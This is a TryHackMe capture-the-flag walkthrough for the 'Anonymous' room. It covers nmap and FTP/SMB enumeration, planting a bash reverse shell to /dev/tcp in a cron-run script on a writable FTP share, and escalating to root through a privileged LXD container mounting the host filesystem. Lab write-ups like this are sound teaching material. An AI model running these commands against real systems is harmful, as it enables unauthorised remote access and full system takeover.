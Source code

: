 # Anonymous Walkthrough - TryHackMe  

---

### Introduction 

Essentially, the owner of the box left an **FTP directory writable to guests**. Inside, there is a bash script called `clean.sh` that cleans the `/tmp` directory. This script is run by a **cron job**, which means we can **modify files in the FTP share** to include a malicious line of code and gain a shell on the box — part 1 done.  

For privilege escalation, the user we log in as is a member of the **sudo group**. This allows us to leverage **LXD** to get root on the box.  

Let’s jump in!  

---

### Step 1: Nmap Scan

We start with a basic scan:

```
nmap -sC -sV <target-ip>
```

Initially, only two ports were open.

No web server was found, so a full TCP scan was run to check for missed ports.

Two more ports were discovered: standard SMB ports.

### Step 2: Service Analysis

We discovered anonymous FTP login is allowed.

### Step 3: FTP Enumeration

Connect to FTP using:
```
ftp <target-ip>
```
Explore the files on the FTP share:

`To_do.txt – Reminder to disable anonymous login
clean.sh – Bash script deleting /tmp files
removed_files.log – Logs of deleted files`

Since the script is run by cron, modifying clean.sh allows us to inject a reverse shell.
### Step 4: SMB Enumeration

SMB share named pics allowed NULL authentication.

### Step 5: Gaining a Shell

Edit clean.sh and add a bash reverse shell with your IP:
```
bash -i >& /dev/tcp/<your-ip>/4444 0>&1
```
Upload the modified script using FTP put:
```
ftp> put clean.sh
```
Start a listener on your machine:
```
nc -lvnp 4444
```
Wait for the cron job to execute clean.sh. A few seconds later, a shell is obtained.

### Step 6: Capture User Flag

Navigate to the user's home directory:
```
cat user.txt
```
### Step 7: Privilege Escalation

Found potential privilege escalation via LXD.

###Step 8: Exploiting LXD

LXD is Ubuntu's container manager using Linux containers. Users in the lxd group can be exploited to gain root.
`
Download LXD Alpine builder from GitHub.
Build a small Alpine Linux image.
Upload the image to the target machine.
Import the image into LXC:
`
```
lxc image import alpine.tar.gz --alias myalpine
```
Run following commands
```
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
cd /mnt/root
chroot /mnt/root /bin/bash
```
We now have root access on the box.

### Step 9: Capture Root Flag
`
cat /root/root.txt
`
Submit the flag and claim your points!
Conclusion

Exploited writable FTP + cron to get a shell.

Escalated privileges using LXD containers.

Learned about the dangers of sudo group membership and LXD.

References

<a href="https://reboare.github.io/lxd/lxd-escape.html">Privilege Escalation via LXD</a>

TryHackMe Room: <a href="https://tryhackme.com/room/anonymous">Anonymous</a>
